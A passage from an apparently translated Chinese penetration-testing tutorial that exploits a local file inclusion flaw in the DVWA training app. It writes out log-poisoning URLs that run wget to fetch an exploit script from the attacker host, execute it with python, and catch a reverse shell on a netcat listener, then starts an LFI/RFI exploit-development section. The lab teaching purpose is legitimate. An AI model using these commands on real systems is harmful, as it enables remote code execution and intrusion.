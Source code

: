 ![](img/7c01434c-6c79-4696-a69a-3724bb041b29.png)

下载漏洞利用文件将完成我们利用过程的第一步。第二步将是执行它并获取回监听器。这可以通过访问以下 URL 来执行：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`

让我们看看这个实际操作：

1.  在`/tmp`文件夹中下载并保存 Python 漏洞利用程序：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`

1.  验证是否已成功保存：

![](img/30c5c1f9-b9d3-44b6-b144-48fc116ae178.png)

1.  在`444`上启动`netcat`监听器：`nc -nlvp 4444`。

1.  启动调用`exp.py`脚本连接回攻击者主机的命令：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`。

让我们看看我们的监听器是否已经获得了 shell：

![](img/67be60de-978e-41d0-9b6e-ca8163c01804.png)

从前面的截图中可以看到，我们已成功获得了 shell。

# 漏洞利用开发（LFI + RFI）

到目前为止，我们已经学习了如何手动利用 LFI 漏洞。让我们继续尝试开发一个通用的漏洞利用程序，它将利用 LFI 漏洞以及其他相同的应用程序。在本节中，我们将看到如何编写一个了不起的漏洞利用程序，它将利用 DVWA 应用程序中的 RFI 和 LFI 漏洞。尽管这个漏洞利用程序是为 DVWA 应用程序编写的，但我尝试使它通用化。通过一些调整，我们也可以尝试将其用于其他可能存在 LFI 和 RFI 漏洞的应用程序。

让我们安装前提条件：

```py
pip install BeautifulSoup
pip install bs4
pip install selenium
sudo apt-get install libfontconfig
apt-get install npm
npm install ghostdriver
wget https://bitbucket.org/ariya/phantomjs/downloads/phantomjs-2.1.1-linux-x86_64.tar.bz2
tar xvjf phantomjs-2.1.1-linux-x86_64.tar.bz2
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/bin/
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/local/bin/
```
